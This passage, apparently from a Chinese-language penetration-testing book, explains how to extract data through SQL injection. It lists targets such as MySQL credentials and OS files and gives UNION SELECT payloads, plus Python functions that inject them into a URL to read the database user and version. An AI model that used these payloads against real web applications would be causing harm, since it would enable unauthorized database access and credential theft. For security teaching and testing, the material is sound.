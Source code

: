 在这种情况下，列的数量是`2`，找到的一些列名是`name`、`passwd`、`id`和`role`。

恭喜！你已经创建了一个 SQL 注入检测器。

# 利用 SQL 注入提取数据

在这一部分，我们将学习如何利用 SQL 注入以及如何在 Python 中进行交替。我们将学习可以使用 SQL 注入提取哪些类型的数据，然后我们将交替一些这些技术，比如在上一节中的 SQL 注入器脚本中自动化基本数据提取。

# 我们可以用 SQLi 提取哪些数据？

一旦我们确定了一个有效的 SQL 注入，就是时候决定我们要寻找什么了。在这里，我们有一个最典型的事物列表：

+   **基本数据**：例如，数据库版本、运行数据库的用户、当前数据库、数据库目录等等

+   **高级数据**：MySQL 用户名和密码、数据库、表名、列名以及表中的内容

+   **操作系统文件**：只要运行数据库的用户有权限，我们可以读取文件系统中的任何文件

这些是一些最有用和通常提取的数据。我鼓励你继续学习一旦你有一个可用的 SQL 注入后可以做的其他事情。

一个很好的起点是 pentestmonkey 的 Cheat Sheet ([`pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet`](http://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet))。

# 自动化基本提取

在我们获得一个可用的 SQL 注入后，我们想要获取的第一件事是关于我们正在使用的数据库的信息，比如数据库版本、当前用户、当前数据库等等。

为了做到这一点，我们需要使用`SELECT @@ version;`。我们将获得数据库版本。`SELECT user();`将获得运行数据库的用户。对于我们的示例，我们必须使用以下注入来获取版本；`'union SELECT1, @@version;-- -`。我们需要在`@@version`之前加上`1`，以匹配查询中受 SQL 注入影响的列数，这是受 SQL 注入影响的列数。

在我们的情况下，有两列；这就是为什么我们添加`1`。

让我们去我们的编辑器，并继续处理文件`SQLinjector-2.py`。我们添加了两个新函数，以便从数据库中获取版本和当前用户。您会注意到我们有以下注入：

```py
def detect_user(url):
  new_url= url.replace("FUZZ","""\'%20union%20SELECT%201,CONCAT('TOK',user(),
 'TOK')--%20-""")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  users=re.findall(reg,req.content)
  for user in users:
    print user
  return user

def detect_version(url):
  new_url= url.replace("FUZZ","\'%20union%20SELECT%201,CONCAT('TOK',@@version,'TOK')--%20-")
  req=requests.get(new_url)
  raw = req.content
  reg = ur"TOK([a-zA-Z0-9].+?)TOK+?"
  version=re.findall(reg,req.content)
  for ver in version:
    print ver
  return ver
```
